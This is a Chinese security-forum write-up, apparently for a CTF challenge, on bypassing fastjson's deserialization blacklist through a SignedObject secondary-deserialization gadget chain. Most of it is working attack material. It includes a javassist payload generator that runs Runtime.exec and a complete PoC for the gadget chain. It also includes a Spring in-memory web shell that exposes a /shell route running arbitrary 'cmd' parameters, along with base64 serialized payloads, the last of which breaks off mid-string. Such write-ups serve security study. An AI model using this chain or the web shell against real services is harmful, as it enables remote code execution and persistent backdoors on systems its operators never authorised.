









# fastjson高版本二次反序列化绕过-先知社区

> **来源**: https://xz.aliyun.com/news/16806  
> **文章ID**: 16806

---

# fastjson高版本二次反序列化绕过

## 代码审计

分析jar包，查看pom.xml文件

有fastjson



查看还有没有其他依赖



访问路由触发反序列化



看重写的resolveClass



看到了黑名单，意味着我们不能以BadAttributeValueExpException#readObjct开头反序列化

但是我们仍然需要去触发二次反序列化

## 链子分析

最为经典的gadget应该是

```
* 绕过第一次的TemplatesImpl黑名单检查
    BadAttributeValueExpException#readObject
    JSONOBJECT#toString
    SignedObject#getObject
* 二次反序列化
    * 引用绕过JSON自带resolveClass的黑名单检查
        BadAttributeValueExpException#readObject
        JSONArray#toString
        TemplatesImpl#getOutputProperties
            TemplatesImpl#newTransformer
            TemplatesImpl#getTransletInstance
            TemplatesImpl#defineTransletClasses
            TemplatesImpl#defineClass
```

那么有没有别的办法能够走到JSONOBJECT#toString呢？

答案是有的

参考文章

<https://xz.aliyun.com/news/15977>



所以最后的链子就是

```
* 绕过第一次的BadAttributeValueExpException黑名单检查
    EventListenerList --> 
    UndoManager#toString() -->
    Vector#toString()
    JSONArray#toString
    SignedObject#getObject
* 二次反序列化绕过TemplatesImpl黑名单检查
    * 引用绕过JSON自带resolveClass的黑名单检查
        BadAttributeValueExpException#readObject
        JSONArray#toString
        TemplatesImpl#getOutputProperties
            TemplatesImpl#newTransformer
            TemplatesImpl#getTransletInstance
            TemplatesImpl#defineTransletClasses
            TemplatesImpl#defineClass
```

那么找到链子我们就可以开始编写payload了

## Payload编写

里面先套一层恶意字节码

```
public class Poc {
    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        String sh ="Runtime.getRuntime().exec("" + cmd + "");";
        System.out.println(sh);
        constructor.setBody(sh);
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        byte[] bytes = Repository.lookupClass(SpringMemShell.class).getBytes();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);
    }
}
```

然后到JSONArray#toString

```
//JSONArray#toString
JSONArray jsonArray2 = new JSONArray();
jsonArray2.add(templates);
```

然后到BadAttributeValueExpException#readObject

```
//BadAttributeValueExpException#readObject
BadAttributeValueExpException bd2 = new BadAttributeValueExpException(null);
setValue(bd2,"val",jsonArray2);
```

然后进行二次反序列化绕过黑名单

```
//二次反序列化
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(templates, kp.getPrivate(), Signature.getInstance("DSA"));
```

那么到现在我们剩下的问题就是怎么触发SignedObject#getObject

利用EventListenerList链子走到JSONArray#toString

```
//JSONArray#toString
JSONArray jsonArray1 = new JSONArray();
jsonArray1.add(signedObject);
/*
EventListenerList -->
UndoManager#toString() -->
Vector#toString()
*/
EventListenerList list = new EventListenerList();
UndoManager manager = new UndoManager();
Vector vector = (Vector) getFieldValue(manager, "edits");
vector.add(jsonArray1);
setValue(list, "listenerList", new Object[]{InternalError.class, manager});
```

最后再套一层

```
HashMap hashMap = new HashMap();
hashMap.put(signedObject,list);
```

完成



### 打本地payload

```
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IAGmphdmEuc2VjdXJpdHkuU2lnbmVkT2JqZWN0Cf+9aCo81f8CAANbAAdjb250ZW50dAACW0JbAAlzaWduYXR1cmVxAH4AA0wADHRoZWFsZ29yaXRobXQAEkxqYXZhL2xhbmcvU3RyaW5nO3hwdXIAAltCrPMX+AYIVOACAAB4cAAAAoKs7QAFc3IAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0/BbqyrMwMABkkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnNsZXRJbmRleFsACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3N0ABJbTGphdmEvbGFuZy9DbGFzcztMAAVfbmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO0wAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9wZXJ0aWVzO3hwAAAAAP////91cgADW1tCS/0ZFWdn2zcCAAB4cAAAAAF1cgACW0Ks8xf4BghU4AIAAHhwAAABVsr+ur4AAAAxABgBAAFhBwABAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAcAAwEABjxpbml0PgEAAygpVgEABENvZGUMAAUABgoABAAIAQARamF2YS9sYW5nL1J1bnRpbWUHAAoBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7DAAMAA0KAAsADgEABGNhbGMIABABAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAASABMKAAsAFAEAClNvdXJjZUZpbGUBAAZhLmphdmEAIQACAAQAAAAAAAEAAQAFAAYAAQAHAAAAGgACAAEAAAAOKrcACbgADxIRtgAVV7EAAAAAAAEAFgAAAAIAF3B0AAExcHcBAHh1cQB+AAYAAAAuMCwCFGHhwai97CSOICAXprtFH03pkhEvAhRLXCmT8ks/rsDQZjpC2G86oQv3MXQAA0RTQXNyACNqYXZheC5zd2luZy5ldmVudC5FdmVudExpc3RlbmVyTGlzdLE2xn2E6tZEAwAAeHB0ABdqYXZhLmxhbmcuSW50ZXJuYWxFcnJvcnNyABxqYXZheC5zd2luZy51bmRvLlVuZG9NYW5hZ2Vy4ysheUxxykICAAJJAA5pbmRleE9mTmV4dEFkZEkABWxpbWl0eHIAHWphdmF4LnN3aW5nLnVuZG8uQ29tcG91bmRFZGl0pZ5QulPblf0CAAJaAAppblByb2dyZXNzTAAFZWRpdHN0ABJMamF2YS91dGlsL1ZlY3Rvcjt4cgAlamF2YXguc3dpbmcudW5kby5BYnN0cmFjdFVuZG9hYmxlRWRpdAgNG47tAgsQAgACWgAFYWxpdmVaAAtoYXNCZWVuRG9uZXhwAQEBc3IAEGphdmEudXRpbC5WZWN0b3LZl31bgDuvAQMAA0kAEWNhcGFjaXR5SW5jcmVtZW50SQAMZWxlbWVudENvdW50WwALZWxlbWVudERhdGF0ABNbTGphdmEvbGFuZy9PYmplY3Q7eHAAAAAAAAAAAXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAGRzcgAeY29tLmFsaWJhYmEuZmFzdGpzb24uSlNPTkFycmF5AAAAAAAAAAECAAFMAARsaXN0dAAQTGphdmEvdXRpbC9MaXN0O3hwc3IAE2phdmEudXRpbC5BcnJheUxpc3R4gdIdmcdhnQMAAUkABHNpemV4cAAAAAF3BAAAAAFxAH4ABXhwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHB4AAAAAAAAAGRweHg=
```

### 打远程payload

由于题目环境不出网，我们需要打springboot的内存马

最终内存马

SpringMemShell.java

```
package org.shu;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

public class SpringMemShell extends AbstractTranslet{
    static {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
            configField.setAccessible(true);
            RequestMappingInfo.BuilderConfiguration config =
                    (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
            Method method2 = SpringMemShell.class.getMethod("shell", HttpServletRequest.class, HttpServletResponse.class);
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
            RequestMappingInfo info = RequestMappingInfo.paths("/shell")
                    .options(config)
                    .build();
            SpringMemShell springControllerMemShell = new SpringMemShell();
            mappingHandlerMapping.registerMapping(info, springControllerMemShell, method2);

        } catch (Exception hi) {
//            hi.printStackTrace();
        }
    }

    public void shell(HttpServletRequest request, HttpServletResponse response) throws IOException {
        if (request.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\A");
            String output = s.hasNext() ? s.next() : "";
            response.getWriter().write(output);
            response.getWriter().flush();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

最终poc

```
/**
 * @className Poc
 * @Author shushu
 * @Data 2025/2/9
 **/
package org.shu.vnctf;
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.HashMap;
import java.util.Vector;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.shu.SpringMemShell;

import static org.shu.Poc.getFieldValue;

public class Poc {
    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        String sh ="Runtime.getRuntime().exec("" + cmd + "");";
        System.out.println(sh);
        constructor.setBody(sh);
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        //TemplatesImpl#getOutputProperties
        byte[] bytes = Repository.lookupClass(SpringMemShell.class).getBytes();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);
        //JSONArray#toString
        JSONArray jsonArray2 = new JSONArray();
        jsonArray2.add(templates);
        //BadAttributeValueExpException#readObject
        BadAttributeValueExpException bd2 = new BadAttributeValueExpException(null);
        setValue(bd2,"val",jsonArray2);
        //二次反序列化
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(templates, kp.getPrivate(), Signature.getInstance("DSA"));
        //JSONArray#toString
        JSONArray jsonArray1 = new JSONArray();
        jsonArray1.add(signedObject);
        /*
        EventListenerList -->
        UndoManager#toString() -->
        Vector#toString()
         */
        EventListenerList list = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(jsonArray1);
        setValue(list, "listenerList", new Object[]{InternalError.class, manager});

        HashMap hashMap = new HashMap();
        hashMap.put(signedObject,list);

        byte[] serialize = serialize(hashMap);
        System.out.println(Base64.getEncoder().encodeToString(serialize));
        unserialize(serialize);

    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }
    public static void unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }
}

```

生成的payload

```
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IAGmphdmEuc2VjdXJpdHkuU2lnbmVkT2JqZWN0Cf+9aCo81f8CAANbAAdjb250ZW50dAACW0JbAAlzaWduYXR1cmVxAH4AA0wADHRoZWFsZ29yaXRobXQAEkxqYXZhL2xhbmcvU3RyaW5nO3hwdXIAAltCrPMX+AYIVOACAAB4cAAAF/es7QAFc3IAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0/BbqyrMwMABkkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnNsZXRJbmRleFsACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3N0ABJbTGphdmEvbGFuZy9DbGFzcztMAAVfbmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO0wAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9wZXJ0aWVzO3hwAAAAAP////91cgADW1tCS/0ZFWdn2zcCAAB4cAAAAAF1cgACW0Ks8xf4BghU4AIAAHhwAAAWy8r+ur4AAAA0APgKADcAewgAfAsAKgB9CAB+CgB/AIAKAAkAgQgAggoACQCDBwCECACFCACGCACHCACICgCJAIoKAIkAiwoAjACNBwCOCgARAI8IAJAKABEAkQoAEQCSCgARAJMIAJQLACsAlQoAlgCXCgCWAJgKAJkAmggAmwsAnACdBwCeBwCfCwAeAKAKAKEAoggAbQoAKQCjCgCkAKUKAKQApgcAqAcAqQgAPwcAqgcAqwcArAoAKQCtBwCuBwCvCgAtALAIALEKAKcAsgsAswC0CwCzALUKACcAewoAHwC2BwC3BwC4AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABhMb3JnL3NodS9TcHJpbmdNZW1TaGVsbDsBAAVzaGVsbAEAUihMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDtMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7KVYBAAdpc0xpbnV4AQABWgEABW9zVHlwAQASTGphdmEvbGFuZy9TdHJpbmc7AQAEY21kcwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAJpbgEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAAXMBABNMamF2YS91dGlsL1NjYW5uZXI7AQAGb3V0cHV0AQAHcmVxdWVzdAEAJ0xqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0OwEACHJlc3BvbnNlAQAoTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlOwEADVN0YWNrTWFwVGFibGUHAIQHAEYHALkHAI4HAKkHAKsHAKwBAApFeGNlcHRpb25zBwC6AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcAuwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAIPGNsaW5pdD4BAAdjb250ZXh0AQA3TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvV2ViQXBwbGljYXRpb25Db250ZXh0OwEAFW1hcHBpbmdIYW5kbGVyTWFwcGluZwEAVExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvYW5ub3RhdGlvbi9SZXF1ZXN0TWFwcGluZ0hhbmRsZXJNYXBwaW5nOwEAC2NvbmZpZ0ZpZWxkAQAZTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwEABmNvbmZpZwEAFEJ1aWxkZXJDb25maWd1cmF0aW9uAQAMSW5uZXJDbGFzc2VzAQBUTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL21ldGhvZC9SZXF1ZXN0TWFwcGluZ0luZm8kQnVpbGRlckNvbmZpZ3VyYXRpb247AQAHbWV0aG9kMgEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQACbXMBAE5Mb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvY29uZ